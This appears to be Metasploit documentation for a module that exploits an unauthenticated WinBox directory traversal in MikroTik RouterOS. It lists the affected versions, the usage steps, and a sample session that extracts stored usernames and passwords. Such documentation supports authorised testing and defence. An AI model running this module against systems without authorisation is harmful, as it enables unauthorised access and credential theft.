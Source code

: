 ## Vulnerable Application

MikroTik RouterOS allows unauthenticated remote attackers to read arbitrary files
through a directory traversal through the WinBox interface (typically port 8291).

Vulnerable versions of MikroTik RouterOS:

* (bugfix) 6.30.1-6.40.7
* (current) 6.29-6.42
* (RC) 6.29rc1-6.43rc3

MikroTik images can be downloaded from [here](https://mikrotik.com/download/archive)

### Adding Users

To add users to the MikroTik device, use the following commands:

Get the groups first

```
/user group print
```

Add a user

```
/user add name=[name] password=[password] group=[group]
```

## Verification Steps

1. Start msfconsole
1. Do: `use auxiliary/gather/mikrotik_winbox_fileread`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should credentials.

## Options

## Scenarios

### Mikrotik Cloud Router RouterOS 6.40.4

```
msf5 > use auxiliary/gather/mikrotik_winbox_fileread 
msf5 auxiliary(gather/mikrotik_winbox_fileread) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf5 auxiliary(gather/mikrotik_winbox_fileread) > run

[*] Running for 1.1.1.1...
[*] 1.1.1.1 - Session ID: 54
[*] 1.1.1.1 - Requesting user database through exploit
[*] 1.1.1.1 - Exploit successful, attempting to extract usernames & passwords
[*] 1.1.1.1 - Extracted Username: "write" and password "write"
[*] 1.1.1.1 - Extracted Username: "read" and password "read"
[*] 1.1.1.1 - Extracted Username: "admin" and password ""
[*] 1.1.1.1 - Extracted Username: "user2" and password "password1"
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
